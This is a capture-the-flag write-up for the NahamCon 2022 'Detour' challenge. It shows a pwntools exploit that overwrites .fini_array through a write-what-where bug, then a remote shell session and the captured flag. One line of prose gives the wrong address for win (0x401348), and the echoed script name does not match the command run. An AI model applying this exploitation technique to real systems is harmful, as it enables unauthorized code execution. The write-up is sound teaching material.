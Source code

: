 # Detour - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 404 Points

## Description

![Info.JPG](images/Info.JPG)
 
## Detour Solution

Let's run ```checksec``` on the attached file [detour](./detour):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ checksec detour
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX Enabled](https://ctf101.org/binary-exploitation/no-execute/) and [Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ ./detour
What: 1
Where: 2
Segmentation fault
```

So we can see that we have [Write-what-Were](https://www.martellosecurity.com/kb/mitre/cwe/123/).

Let's observe the ```main``` function using [Ghidra](https://github.com/NationalSecurityAgency/ghidra):
```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  undefined8 local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();
  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();
  *(undefined8 *)((long)&base + local_18) = local_20;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

And by observing the code we found also the ```win``` function:
```console
void win(void)
{
  system("/bin/sh");
  return;
}
```

We need to write the address of ```win``` function to location that can execute it.

We can do it by override the address of the ```fini_array``` which called after the ```main``` function.

Let's find the address of the relevant functions using ```gdb```:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ gdb detour
..
gef➤  info file
Symbols from "/nahamcon/binary_exploitation/detour/detour".
Local exec file:
	`/nahamcon/binary_exploitation/detour/detour', file type elf64-x86-64.
	Entry point: 0x4010f0
	0x00000000004002e0 - 0x00000000004002fc is .interp
	0x0000000000400300 - 0x0000000000400320 is .note.gnu.property
	0x0000000000400320 - 0x0000000000400344 is .note.gnu.build-id
	0x0000000000400344 - 0x0000000000400364 is .note.ABI-tag
	0x0000000000400368 - 0x0000000000400390 is .gnu.hash
	0x0000000000400390 - 0x0000000000400498 is .dynsym
	0x0000000000400498 - 0x000000000040052e is .dynstr
	0x000000000040052e - 0x0000000000400544 is .gnu.version
	0x0000000000400548 - 0x0000000000400588 is .gnu.version_r
	0x0000000000400588 - 0x00000000004005e8 is .rela.dyn
	0x00000000004005e8 - 0x0000000000400678 is .rela.plt
	0x0000000000401000 - 0x000000000040101b is .init
	0x0000000000401020 - 0x0000000000401090 is .plt
	0x0000000000401090 - 0x00000000004010f0 is .plt.sec
	0x00000000004010f0 - 0x0000000000401345 is .text
	0x0000000000401348 - 0x0000000000401355 is .fini
	0x0000000000402000 - 0x0000000000402023 is .rodata
	0x0000000000402024 - 0x0000000000402078 is .eh_frame_hdr
	0x0000000000402078 - 0x00000000004021b8 is .eh_frame
	0x00000000004031b8 - 0x00000000004031c8 is .init_array
	0x00000000004031c8 - 0x00000000004031d0 is .fini_array
	0x00000000004031d0 - 0x00000000004033a0 is .dynamic
	0x00000000004033a0 - 0x00000000004033b0 is .got
	0x00000000004033b0 - 0x00000000004033f8 is .got.plt
	0x00000000004033f8 - 0x0000000000403408 is .data
	0x0000000000403410 - 0x0000000000403438 is .bss
$2 = {<text variable, no debug info>} 0x401348 <_fini>
gef➤  print win
$3 = {<text variable, no debug info>} 0x401209 <win>
```
So we need to write ```0x401348``` (win) to ```0x4031c8``` (.fini_array).

By observing the code we can see the following line:
```c
*(undefined8 *)((long)&base + local_18) = local_20;
```

Meaning that we need to find also the address of the ```base```.

We can do it also by using ```gdb``` by disassemblie the ```main``` function:
```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401220 <+0>:	endbr64 
   0x0000000000401224 <+4>:	push   rbp
   0x0000000000401225 <+5>:	mov    rbp,rsp
   0x0000000000401228 <+8>:	sub    rsp,0x20
   0x000000000040122c <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401235 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401239 <+25>:	xor    eax,eax
   0x000000000040123b <+27>:	lea    rdi,[rip+0xdca]        # 0x40200c
   0x0000000000401242 <+34>:	mov    eax,0x0
   0x0000000000401247 <+39>:	call   0x4010c0 <printf@plt>
   0x000000000040124c <+44>:	lea    rax,[rbp-0x18]
   0x0000000000401250 <+48>:	mov    rsi,rax
   0x0000000000401253 <+51>:	lea    rdi,[rip+0xdb9]        # 0x402013
   0x000000000040125a <+58>:	mov    eax,0x0
   0x000000000040125f <+63>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401264 <+68>:	call   0x4010d0 <getchar@plt>
   0x0000000000401269 <+73>:	lea    rdi,[rip+0xda7]        # 0x402017
   0x0000000000401270 <+80>:	mov    eax,0x0
   0x0000000000401275 <+85>:	call   0x4010c0 <printf@plt>
   0x000000000040127a <+90>:	lea    rax,[rbp-0x10]
   0x000000000040127e <+94>:	mov    rsi,rax
   0x0000000000401281 <+97>:	lea    rdi,[rip+0xd97]        # 0x40201f
   0x0000000000401288 <+104>:	mov    eax,0x0
   0x000000000040128d <+109>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401292 <+114>:	call   0x4010d0 <getchar@plt>
   0x0000000000401297 <+119>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040129b <+123>:	mov    rdx,rax
   0x000000000040129e <+126>:	lea    rax,[rip+0x218b]        # 0x403430 <base>
   0x00000000004012a5 <+133>:	add    rdx,rax
   0x00000000004012a8 <+136>:	mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004012ac <+140>:	mov    QWORD PTR [rdx],rax
   0x00000000004012af <+143>:	mov    eax,0x0
   0x00000000004012b4 <+148>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004012b8 <+152>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004012c1 <+161>:	je     0x4012c8 <main+168>
   0x00000000004012c3 <+163>:	call   0x401090 <__stack_chk_fail@plt>
   0x00000000004012c8 <+168>:	leave  
   0x00000000004012c9 <+169>:	ret    
End of assembler dump.
```

An we can see the ```base``` on ```lea    rax,[rip+0x218b]        # 0x403430 <base>``` which is ```0x403430```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./detour')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 32680)
else:
    p = process(elf.path)

# funcions address
address_of_win = 0x401209
address_of_fini = 0x4031c8
address_of_base = 0x403430
p.recvuntil(':')
p.sendline(str(address_of_win))
p.recvuntil(':')
p.sendline(str(address_of_fini-address_of_base))
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ python3 detour_pwn.py REMOTE
python3 exp_rop.py REMOTE
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 32680: Done
[*] Switching to interactive mode
 $ ls
bin
detour
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
```

And we get the flag ```flag{787325292ef650fa69541722bb57bed9}```.